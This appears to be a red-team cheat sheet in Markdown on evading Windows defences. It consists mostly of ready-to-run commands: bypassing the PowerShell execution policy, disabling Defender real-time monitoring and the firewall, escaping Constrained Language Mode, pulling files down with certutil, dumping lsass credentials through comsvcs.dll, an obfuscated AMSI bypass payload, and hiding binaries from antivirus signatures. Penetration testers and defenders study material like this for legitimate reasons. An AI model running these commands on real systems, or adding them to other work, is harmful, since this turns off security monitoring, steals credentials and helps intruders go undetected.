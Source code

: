 # Evasion
#### Powershell detections
- System-wide transcription
- Script Block logging 
- AntiMalware Scan Interface (AMSI)
- Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)


## Execution-policy
#### Get Execution policy
```
Get-Executionpolicy
```

#### Bypass execution policy
- Not meant to be a security measure
```
powershell –executionpolicy bypass .\script.ps1
powershell –c <cmd>
powershell –enc
powershell.exe -executionpolicy bypass
```

## AV
#### Check if windows defender is running
```
Get-MpComputerStatus
Get-MpComputerStatus | Select RealTimeProtectionEnabled
```

#### Disable AV monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPReference -DisableIOAVProtection $true
```

#### Disable Firewall
```
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False 
```

## Constrained Lanuage Mode
#### Check the language mode
```
$ExecutionContext.SessionState.LanguageMode
```

### Escapes for Constrained Language Mode
#### Launch Powershell Version 2
```
Powershell.exe -Version 2
```

#### Overwrite __PSLockdownPolicy variable
- If CLM is not implemented correctly.
- https://github.com/Metoraf007/Public_PowerShell/blob/master/Bypass_ConstrainedLang.ps1
```
#Requires -RunAsAdministrator

If ( $ExecutionContext.SessionState.LanguageMode -eq "ConstrainedLanguage") {
    Set-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name "__PSLockdownPolicy" -Value 8

    Start-Process -File PowerShell.exe -Argument "-file $($myinvocation.mycommand.definition)"
    Break
}

Write-Host $ExecutionContext.SessionState.LanguageMode

Start-Sleep -s 10
```

#### Download files with certutil
```
certutil -urlcache -split -f <URL>
```

#### Execute scripts
- It is possible to execute scripts on the filesystem but you can't load them!
- If applocker is there enumerate it to find a directory that lets you execute scripts in

## Applocker
#### Check if applocker policy is running
```
Get-AppLockerPolicy -Effective
```

#### Enumerate applocker policy
```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

#### Check applocker policy in registery
```
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
```

#### Check for WDAC
```
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```

#### If code integrity is enforced and PowerShell is running in Constrained Langauge Mode use winrs instead of psremoting
```
runas /netonly /user:<DOMAIN\<USER> cmd.exe
winrs -r:<PC NAME> cmd
```

### LOLBAS
- Use Microsoft Signed Binaries to exploit https://lolbas-project.github.io/

#### For example dumping lsass:
```
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 708 C:\Users\Public\lsass.dmp full
dir C:\Users\Public\lsass.dmp
```

## AMSI Bypass
- https://amsi.fail/
- Then obfuscate with https://github.com/danielbohannon/Invoke-Obfuscation
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
Invoke-Command -Scriptblock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} $sess
```

## Invisi-shell
- Bypasses Sytem-Wide transcript
- https://github.com/OmerYa/Invisi-Shell
- Type exit from the new PowerShell session to complete the clean-up.

#### With admin privileges
```
./RunWithPathAsAdmin.bat 
```

#### With non-admin privileges:
```
RunWithRegistryNonAdmin.bat
```

## Winrs
- Use Winrs instead of PSRemoting to evade System-wide-transcript and deep script block logging
```
winrs -remote:server1 -u:<COMPUTERNAME>\<USER> -p:<PASS> hostname
```

## Com objects
- https://github.com/bohops/WSMan-WinRM

## AV Bypass
### Method one
- Defendercheck to check for signatures https://github.com/matterpreter/DefenderCheck
- Run Defendercheck ```DefenderCheck.exe <PATH TO BINARY>```
- Replace string which gets detected.
- Recompile and check again!

#### Method two
- Obfuscate binary with https://github.com/mkaring/ConfuserEx
- Launch ConfuserEx
- In Project tab select the Base Directory where the binary file is located.
- In Project tab Select the Binary File that we want to obfuscate.
- In Settings tab add the rules.
- In Settings tab edit the rule and select the preset as `Normal`.
- In Protect tab click on the protect button.
- We will find the new obfuscated binary in the Confused folder under the Base Directory.

#### If script gets detected use:
- https://github.com/yoda66/PowerStrip

#### Compile defendercheck
- Using visual studio code
```
csc.exe /target:exe /out:C:\tools\defendercheck.exe C:\Tools\DefenderCheck\DefenderCheck\DefenderCheck\Program.cs
```

#### Random notes
```
pyinstaller.exe --onefile .\CVE-2021-1675.py
pyarmor pack --clean -e "--onefile " .\CVE-2021-1675.py
```
